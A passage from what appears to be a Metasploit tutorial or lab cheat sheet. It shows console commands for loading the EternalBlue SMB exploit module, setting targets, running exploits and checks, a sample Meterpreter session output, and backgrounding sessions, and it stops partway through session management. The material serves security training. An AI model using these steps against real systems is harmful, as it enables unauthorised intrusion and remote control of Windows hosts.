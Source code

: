 **Workflow Example:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
setg RHOSTS 10.10.165.39
back
use auxiliary/scanner/smb/smb_ms17_010
show options  # RHOSTS already set
```

---

##  Running a Module

###  Available commands:

```bash
exploit       # Run the exploit
run           # Same as exploit, better for scanners
exploit -z    # Run and background session
```

**Output Example:**

```bash
[*] Meterpreter session 2 opened (10.10.44.70:4444 -> 10.10.12.229:49186)
```

---

##  Vulnerability Check

Some modules support checking vulnerability without exploiting:

```bash
check
```

---

## 🧭 Managing Sessions

###  Background an Active Session

```bash
meterpreter > background
```

Or:

```
CTRL + Z
```

###  List All Active Sessions
